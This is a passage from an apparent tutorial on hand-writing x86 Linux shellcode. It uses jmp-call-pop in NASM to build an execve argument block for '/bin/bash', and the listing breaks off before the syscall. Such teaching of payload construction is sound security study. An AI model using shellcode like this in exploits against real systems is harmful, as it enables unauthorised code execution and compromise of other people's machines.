 ```
        mov byte [esi + 9], bl
 
call_shellcode:

        call shellcode 
        message db "/bin/bashABBBBCCCC"
```

Now, there are two other things we need to set up in memory. The first
is the address of `/bin/bash` null-terminated has to be in memory 
somewhere. Now, currently which register points to `/bin/bash`
null-terminated is `esi`. So `esi` or the value inside `esi` needs
to be stored in memory somewhere. And we are going to overwrite `BBBB`
with the address of `"/bin/bash"` which basically is refferenced by
`esi`.

So I could simply do `mov` and in this case we are moving the address
let's it be a `dword` and what we are moving is `esi`, because `esi`
contains the address of the string `/bin/bash`.

```
global _start

section .text
_start:

        jmp short call_shellcode
        

shellcode: 

        pop esi

        xor ebx, ebx
        mov byte [esi + 9], bl
        mov dword [esi + 10], esi
 
call_shellcode:

        call shellcode 
        message db "/bin/bashABBBBCCCC"
```

Now, if you recall `argv` required that we have two values one
after another. The first is a `dword` containing the address of the
program to be executed or basically the string defining the program
name which is basically what we've done in overwritting `BBBB` with
and the second was a `dword` containing nothing but NULL. So `CCCC`
needs to get overwritten right now with all NULLs. And we can easily 
do this by using the `ebx` register.

```
global _start

section .text
_start:

        jmp short call_shellcode
        

shellcode: 

        pop esi

        xor ebx, ebx
        mov byte [esi + 9], bl
```